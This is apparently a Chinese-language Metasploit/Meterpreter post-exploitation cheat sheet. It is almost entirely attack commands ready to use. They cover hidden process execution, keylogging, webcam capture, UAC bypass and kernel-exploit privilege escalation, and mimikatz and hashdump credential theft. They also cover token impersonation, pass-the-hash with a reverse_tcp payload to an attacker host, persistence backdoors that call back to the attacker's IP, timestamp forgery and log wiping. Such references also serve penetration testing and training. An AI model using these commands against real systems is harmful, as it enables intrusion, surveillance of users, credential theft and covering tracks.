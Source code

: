   ##### 交互
  	CTRL+Z    把session放入后台
	当攻击成功后会返回会话，使用session -l命令列出当前获取到的会话
	>session -l
	使用
	>sessions -i id 来进入一个会话进行交互
	>sessions -k id 杀死一个会话
	>background 将当前会话放置后台
	>sessions -x检查心跳
	>sessions -u [ID] cmdshell升级meterpreter shell
	>reboot / shutdown   重启/关机
  ##### 命令
  	>idletime 查看目标机闲置时间
	>shell 进入目标cmdshell
	>uictl [enable/disable] [keyboard/mouse/all]  开启或禁止键盘/鼠标
	>uictl disable mouse  禁用鼠标
	>uictl disable keyboard  禁用键盘
	>webcam_list   查看摄像头
	>webcam_snap   通过摄像头拍照
	>webcam_stream  通过摄像头开启视频
	>execute -H -i -f cmd.exe 执行cmd.exe，-H不可见，-i交互 
	>execute -H -m -d calc.exe -f wce.exe -a "-o 1.txt" 隐藏执行
	>execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w   从内存执行
	>ps 查看进程
	>migrate pid     迁移进程
	>kill pid   #杀死进程
	>screenshot  截图
	>run 执行模块，2下tab列出
	>run post/windows/capture/keylog_recorder 键盘记录
	>run packetrecorder -li 列出接口
	>run packetrecorder -i 1  监控接口
  ##### 文件操作
	>pwd 查看当前目录
	>ls 列出当前目录文件
	>search -f *pass*        搜索文件
	>cat c:\\passwd.txt   查看文件内容
	>upload /tmp/pwn.txt C:\\1.txt   上传文件
	>download c:\\passwd.txt /tmp/  下载文件
	>edit c:\\1.txt  编辑或创建文件
	>rm C:\\1.txt 删除文件
	>mkdir folder  创建文件夹
	>rmdir folder  删除文件夹
	>lcd /tmp   #攻击者主机 切换目录
	>timestomp -v C://2.txt   #查看时间戳
	>timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
  ##### 提权
	>getuid 查看权限
	>getsystem 提权
	bypassuac
	>use exploit/windows/local/bypassuac
	>use exploit/windows/local/bypassuac_injection
	>use windows/local/bypassuac_vbs
	>use windows/local/ask
	内核漏洞提权
	>run post/windows/gather/enum_patches
	>use exploit/windows/local/ms13_053_schlamperei
	>set SESSION 2
	>exploit
  ##### 后渗透&权限维持
  ###### 查看信息ip和路由
	ipconfig/ifconfig
	netstat –ano
	route
  ###### 端口转发
	portfwd add -l 4444 -p 3389 -r 127.0.0.1 目标机的3389转发到本地4444
  ###### 添加路由及进行扫描
	run autoroute –h #查看帮助
	run autoroute -s 192.168.159.0/24  #添加到目标环境网络
	run autoroute –p  #查看添加的路由
	run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24
	run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389
  ###### Socks4a代理
	msf> use auxiliary/server/socks4a 
	msf > set srvhost 127.0.0.1
	msf > set srvport 1080
	msf > run
	vi /etc/proxychains.conf 添加 socks4 127.0.0.1 1080
  ###### mimikatz抓密码
	load mimikatz
	wdigest
	mimikatz_command -f samdump::hashes  #执行mimikatz命令
	mimikatz_command -f sekurlsa::searchPasswords
  ###### 开启RDP
	run getgui –h #查看帮助
	run getgui -e #开启远程桌面
	run getgui -u lltest2 -p 123456   #添加用户
	run getgui -f 6661 –e   #3389端口转发到6661

	run post/windows/manage/enable_rdp 开启rdp
	run post/windows/manage/enable_rdp USERNAME=www2 PASSWORD=123456  添加用户
	run post/windows/manage/enable_rdp FORWARD=true LPORT=4444 端口转发
  ###### sniffer抓包
	use sniffer
	sniffer_interfaces   #查看网卡
	sniffer_start 2   #选择网卡 开始抓包
	sniffer_stats 2   #查看状态
	sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
	sniffer_stop 2   #停止抓包
  ###### incognito假冒令牌
	use incognito
	list_tokens -u
	impersonate_token 'NT AUTHORITY\SYSTEM'  假冒SYSTEM token
	或者impersonate_token NT\ AUTHORITY\\SYSTEM #不加单引号 需使用\\
	execute -f cmd.exe -i –t    # -t 使用假冒的token 执行
	或者直接shell
	rev2self   #返回原始token
  ###### steal_token窃取
	steal_token <PID>  窃取令牌
	drop_token 删除窃取的token
  ###### hash
	获取hash >run post/windows/gather/smart_hashdump 需system权限
	PSExec哈希传递
	msf > use exploit/windows/smb/psexec
	msf > set payload windows/meterpreter/reverse_tcp
	msf > set LHOST 192.168.159.134
	msf > set LPORT 443
	msf > set RHOST 192.168.159.144
	msf >set SMBUser Administrator
	msf >set SMBPass aad3b4*****04ee:5b5f00*****c424c
	msf >set SMBDomain  WORKGROUP   #域用户需要设置SMBDomain
	msf >exploit
  ###### persistence启动项后门
	run persistence -X -i 5 -p 6661 -r 192.168.159.134
	-X 开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
	连接
	use exploit/multi/handler
  ###### metsvc
	run metsvc –A 安装后门
	连接
	use exploit/multi/handler
	端口31337
  ##### 清理日志
	>clearav 